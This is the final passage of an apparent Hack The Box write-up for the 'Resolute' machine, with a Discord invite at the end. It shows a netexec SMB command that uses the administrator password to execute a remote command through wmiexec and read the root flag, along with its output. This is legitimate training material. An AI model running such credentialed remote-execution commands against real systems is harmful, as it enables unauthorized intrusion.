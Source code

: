 ```bash
```
You can't…
```bash
└─# nxc smb 10.129.234.83 -u 'administrator' -p 'Password1' -x "type C:\users\administrator\desktop\root.txt" 
SMB         10.129.234.83   445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.129.234.83   445    RESOLUTE         [+] megabank.local\administrator:Password1 (Pwn3d!)
SMB         10.129.234.83   445    RESOLUTE         [+] Executed command via wmiexec
SMB         10.129.234.83   445    RESOLUTE         25b132f718f3601309fcf37847731331
```
![Resolute - HacktheBox Medium](https://i.ibb.co/nrNc5ZG/pwned.png)
Thanks for reading…

# Join Us
Let’s learn, explore, and hack together. Join us on Discord [here](https://discord.gg/2vBCSfBW)
                                                                                



